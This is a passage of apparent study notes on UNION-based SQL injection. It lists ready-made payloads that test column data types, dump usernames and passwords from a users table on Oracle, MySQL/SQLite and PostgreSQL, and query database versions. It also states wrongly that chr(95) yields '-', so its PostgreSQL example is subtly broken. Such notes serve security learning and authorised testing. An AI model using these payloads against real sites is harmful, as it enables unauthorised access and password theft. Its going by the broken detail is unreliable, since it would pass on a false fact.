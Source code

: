 

#### found a specific data type in a column :

once  we enumerate the number of column with the previous technique

we can replace null by a string for exemple : 

```sql
' union select 'ab', null ,null --
' union select  null, 'ab' ,null --
' union select  null, null ,'ab' --
...

```
Based on the behaviour of the page we can find the data type of a specific column.




### Retrive multiple values using a single colummns 

#### **ORACLE** : 

with the || sequence , this pipe operateur is use for concatenation


```sql
' union select username || '~'|| password from users --
```

username and password will be retrieve separated by ~


#### **MySql/sqlLite**: 

```sql
' union select group_concat(password) from users --
```
The operator group_concat() can also be use in sqlite database.

#### **Postgresql**: 

```sql
' union select string_agg(password,(select chr(95))) from users --
```
chr(95) = '-'<br>
password will be printed separated by '-'


## Information on the Database 


### enumerate version 

```sql
Microsoft, MySQL	SELECT @@version
Oracle	SELECT * FROM v$version
PostgreSQL	SELECT version()
sqlite SELECT sqlite_version()
```
If you can't use version in order to find the database you can  use the following tricks to find it.
